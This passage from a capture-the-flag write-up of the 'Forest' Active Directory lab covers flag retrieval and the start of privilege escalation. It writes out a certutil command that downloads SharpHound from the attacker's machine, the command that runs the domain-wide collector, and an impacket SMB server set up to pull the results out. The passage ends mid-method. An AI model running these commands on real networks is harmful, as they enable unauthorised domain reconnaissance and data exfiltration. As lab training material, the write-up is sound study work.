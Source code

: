 ![](assets/Forest_assets/Pasted%20image%2020230606100002.png)

- then we can retrieve our flag

![](assets/Forest_assets/Pasted%20image%2020230606100330.png)

## Privilege Escalation
- so now we want to find privilege escalation paths, by visualizing our AD usind Bloodhound
- firstly we transfer our collector which is Sharphound  using `certutil.exe -urlcache -split -f http://10.10.14.83/SharpHound.exe SharpHound.exe` after spinning up a python server on our attack machine
- then we can run the script using
`. .\SharpHound.exe --collectionmethods All --zipfilename output.zip`

![](assets/Forest_assets/Pasted%20image%2020230606200503.png)

- and we get our Zip file
- Now we have to transfer our zip file to our attack machine so Bloodhound can injest it
- so I want to cover two ways of transferring the zip file from the windows machine to our machine
#### Transfer Method 1: Using impacket-smbserver
- so on our attack machine we run the commands below
```
mkdir smb
impacket-smbserver smb ~/PNPT/machines/smb 
```